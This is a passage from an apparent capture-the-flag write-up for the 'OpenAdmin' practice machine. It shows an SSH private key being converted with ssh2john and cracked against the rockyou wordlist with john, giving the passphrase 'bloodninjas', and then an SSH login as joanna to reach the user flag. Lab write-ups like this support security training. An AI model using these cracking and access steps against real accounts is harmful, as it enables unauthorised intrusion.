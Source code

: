 Hurray, that's the ssh key of joanna, but it's password protected. Hopefully john can help.

At first, I need to convert the key in a john compatible hash format and than try to crack it with the rockyou list.
```bash
kali@kali:~$ /usr/share/john/ssh2john.py sshkey > sshkey.hash
kali@kali:~$ sudo john -wordlist=/usr/share/wordlists/rockyou.txt sshkey.hash
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (sshkey)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-05-02 09:30) 0.3021g/s 4332Kp/s 4332Kc/s 4332KC/sa6_123..*7¡Vamos!
Session completed
```

Nice. Now change the file permissions of the sshkey and try out the bloodninjas password.

## userflag
```bash
kali@kali:~$ chmod 600 sshkey
kali@kali:~$ ssh -i sshkey joanna@openadmin.htb
Enter passphrase for key 'sshkey': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May  2 13:44:53 UTC 2020

  System load:  0.0               Processes:             116
  Usage of /:   49.8% of 7.81GB   Users logged in:       1
  Memory usage: 20%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ wc user.txt 
 1  1 33 user.txt
```
